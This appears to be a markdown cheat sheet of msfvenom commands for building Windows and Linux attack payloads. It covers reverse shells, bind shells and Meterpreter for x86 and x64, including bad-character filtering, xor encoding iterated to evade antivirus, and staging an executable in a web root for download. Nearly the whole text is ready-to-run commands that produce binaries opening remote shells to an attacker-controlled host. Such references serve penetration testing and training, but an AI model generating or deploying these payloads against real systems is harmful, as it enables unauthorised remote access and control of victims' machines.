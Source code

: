 ## MSFVENOM

### Windows Binary (.exe)
#### 32 Bit (x86)
*Reverse Shell:*
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

```

*Bind Shell:*
```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

*Output in Hex, C Style, Exclude bad chars, Exitfunction thread:*
```bash
msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

#### 64 Bit (x64)
*Reverse Shell:*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

*Bind Shell:*
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

*Meterpreter:*
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.0.1 lport=4321 -e x64/xor -i 5 -f exe -o /var/www/html/sc.exe
```

### Linux Binary (.elf)
#### 32 Bit (x86)
*Reverse Shell:*
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```

*Bind Shell:*
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf
```

#### 64 Bit (x64)
*Reverse Shell:*
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```
